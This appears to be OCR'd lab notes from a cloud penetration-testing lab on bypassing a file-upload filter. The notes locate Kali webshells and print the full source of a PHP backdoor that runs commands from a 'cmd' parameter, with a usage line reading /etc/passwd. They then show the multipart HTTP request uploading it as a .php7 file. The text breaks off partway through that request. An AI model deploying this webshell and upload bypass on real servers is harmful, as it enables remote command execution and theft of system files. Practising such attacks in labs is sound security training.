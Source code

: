 `curl https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/test.php7`:
```
test
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

`cp /usr/share/webshells/php/simple-backdoor.php ./simple-backdoor.php7`

`cat ./simple-backdoor.php7`:
```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30586794552660421611961380276
Content-Length: 580
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------30586794552660421611961380276
Content-Disposition: form-data; name="fileToUpload"; filename="simple-backdoor.php7"📌
Content-Type: application/octet-stream📌

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

```